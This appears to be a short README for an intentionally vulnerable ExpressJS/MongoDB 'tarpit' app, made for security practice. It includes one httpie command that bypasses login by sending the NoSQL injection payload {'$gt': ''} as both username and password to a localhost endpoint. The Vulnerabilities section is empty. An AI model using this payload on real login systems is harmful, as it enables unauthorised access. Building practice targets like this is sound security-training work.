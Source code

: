 # NodeJS Tarpit

An ExpressJS (tarpit) application using mongoDB.

I am using [httpie](https://httpie.org), an alternative to curl to trigger exploits.

## Exploits

Login can be exploited using the query as the username and password are not validated

```
http  --print=HB POST http://localhost:8089/vulns username:='{"$gt": ""}' password:='{"$gt": ""}'
```

## Vulnerabilities

```

```
